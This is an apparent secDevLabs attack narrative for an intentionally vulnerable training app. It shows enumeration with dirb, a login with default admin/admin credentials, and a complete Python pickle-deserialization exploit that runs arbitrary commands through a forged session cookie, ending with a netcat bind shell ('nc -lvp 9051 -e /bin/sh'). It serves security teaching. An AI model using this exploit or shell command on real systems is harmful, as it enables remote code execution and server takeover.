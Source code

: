 # Attack Narrative - Amarelo Designs
The main goal of this document is to describe how a malicious user could exploit a vulnerability, intentionally installed on Amarelo Designs from secDevLabs, to obtain a blind remote code execution.

If you don't know [secDevLabs] or this [intended vulnerable web application][2] yet, you should check them before reading this narrative.

---
## 👀

It's possible to reach the server's web application from the HTTP port 5000, as shown by the image below:

<img src="attack1.png" align="center"/>

Making use of the [Dirb] tool to search for webpages, we were able to find `/user`, `/admin` and `/console`, as shown by the picture below: (If you want to install Dirb for Mac OS, be sure to click [here][4])

```sh
$ dirb http://localhost:5000 /usr/share/wordlists/dirb/common.txt
```

<p align="center">
    <img src="attack2.png"/>
</p>

When accessed, the `/admin` page exposes an authentication screen, as depicted by the image: 

<p align="center">
    <img src="attack3.png"/>
</p>

## 🔥

A quick test utilizing `admin` as the credentials for the `Username` and `Password` fields gives us acess to an Admin Dashboard, as shown below:

<img src="attack4.png" align="center"/>

Now, using [Burp Suite] as proxy to intercept the login request, we can see that the app returns a session cookie, `sessionId`, as depicted below:

<img src="attack5.png" align="center"/>

After decoding the cookie, which is in base64, the following structure was found:

<img src="attack6.png" align="center"/>

The structure found is very similar to the ones created with the [Pickle] function. We can be certain of that by having a look at the app's [code][3]. The hint is now confirmed, the app uses Pickle, as we can see from the image below:


<img src="attack7.png" align="center"/>

If an atacker knew that the app is using Pickle as the serialization method, he could create a malicious cookie to take advantage of it and execute code remotely. An example of the cookie is as shown:

```python
import pickle
import os
import datetime
import uuid
import subprocess
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])

class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))

pickle_result = pickle.dumps(Exploit())

result = base64.b64encode(pickle_result)

print result
print cmd
print url

cookie = {'sessionId': result}

print cookie

r = requests.get(url, cookies=cookie)
```

In order to be certain that the app is exploitable, we will send a sleep command to make the app unresposive for 10 seconds. If the app takes 10 seconds to return our request, than it's confirmed, the app is exploitable. As we can see from the image below, the app takes some time to return our request, thus confirming that it is exploitable and confirming the remote code execution: 

```sh
$ python serializaPickle.py "sleep 10" http://localhost:5000/user
```

<img src="attack9.png" align="center"/>

In order to show how an attacker could have access to the server through a RCE, we will use the code depicted on the image below to create a bind shell on the server's 9051 port.

```sh
$ python serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:5000/user
```

<img src="attack10.png" align="center"/>

The code used above creates a bind shell on the server's port 9051, which is then listening for incoming connections. After that, the attacker can connect to that port using a simple [netcat] command, as shown below:

```sh
$ nc localhost 9051
```

<p align="center">
    <img src="attack11.png"/>
</p>


[secDevLabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a8/amarelo-designs
[Dirb]: https://tools.kali.org/web-applications/dirb
[Burp Suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a8/amarelo-designs/app/app.py
[Pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
[4]: https://github.com/globocom/secDevLabs/blob/master/docs/Dirb.md
